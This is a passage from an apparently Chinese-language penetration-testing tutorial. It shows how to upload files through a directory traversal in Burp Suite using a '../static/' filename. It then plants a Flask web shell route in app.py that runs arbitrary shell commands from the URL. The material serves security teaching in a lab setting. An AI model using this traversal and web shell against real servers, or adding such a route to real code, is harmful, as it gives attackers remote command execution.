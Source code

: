 ![](img/pg130.jpg)

图 6-10：Burp Suite Target 标签中显示的 p-web-01 上的 /static 目录

> 注意

*如果你在* /static *目录下看不到图片，点击* ***Filter*** *栏位，然后点击* ***Show All***。

在 Burp Suite 的 Repeater 中，我们将在 *python-webshell-check.py* 文件的文件名中加入一个相对路径，指向 */static* 目录。将其重命名为 *../static/python-webshell-check.py*，然后发送请求到服务器。根据响应，文件应该已经成功上传。浏览到 */static/python-webshell-check.py* URL 来验证这一点。

### 上传恶意载荷

现在我们知道可以利用目录遍历漏洞了，让我们来准备一个恶意的 *app.py* 载荷。我们将使用 @app.route() 函数在 *p-web-01* 中加入一个新的 Web Shell 端点。从本书的 GitHub 仓库中下载恶意版本的 *app.py* 文件。

当你打开这个文件时，你会看到它几乎是原始 *app.py* 文件的直接复制。然而，我们在文件的底部添加了另一个路由：

app.py

```
`--snip--`
❶ @app.route('/webshell/<command>')
def webshell(command):
    result = subprocess.check_output(command, shell=True)
    return result.decode('utf-8') 
```
